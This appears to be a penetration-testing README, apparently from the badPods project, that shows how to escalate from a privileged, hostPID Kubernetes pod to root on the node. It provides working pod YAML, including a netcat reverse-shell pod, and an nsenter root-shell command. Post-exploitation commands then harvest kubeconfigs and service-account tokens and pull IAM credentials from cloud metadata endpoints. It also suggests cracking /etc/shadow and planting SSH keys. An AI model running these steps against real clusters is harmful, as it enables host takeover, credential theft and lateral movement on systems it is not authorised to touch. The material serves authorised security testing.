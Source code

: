 # You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides multiple potential paths to cluster-admin. 

One promising privesc path is available if you can schedule your pod to run on the control plane node using the nodeName selector (not possible in most cloud hosted k8s environments). Even if you can only schedule your pod on the worker node, you can access the node's kubelet credentials or you can create mirror/static pods in any namespace. You can also access any secret mounted within any pod on the node you are on. **In a production cluster, even on a worker node, there is usually at least one pod that has a `token` mounted that is bound to a `service account` that is bound to a `clusterrolebinding`, that gives you access to do things like create pods or view secrets in all namespaces**.  


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid
  labels: 
    app: pentest
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]    
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  restartPolicy: Always
  ```
[pod-priv-and-hostpid.yaml](pod-priv-and-hostpid.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-and-hostpid.yaml  
```
#### Option 2: Create pod from github hosted yaml
```
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-and-hostpid.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-and-hostpid -- bash
```

#### Use nsenter to gain full root access on the node
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-priv-and-hostpid-revshell.yaml](pod-priv-and-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3112
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3112" 
envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3112
Listening on 0.0.0.0 3112
Connection received on 10.0.0.162 42035
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token
```

### Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there

### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

# Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
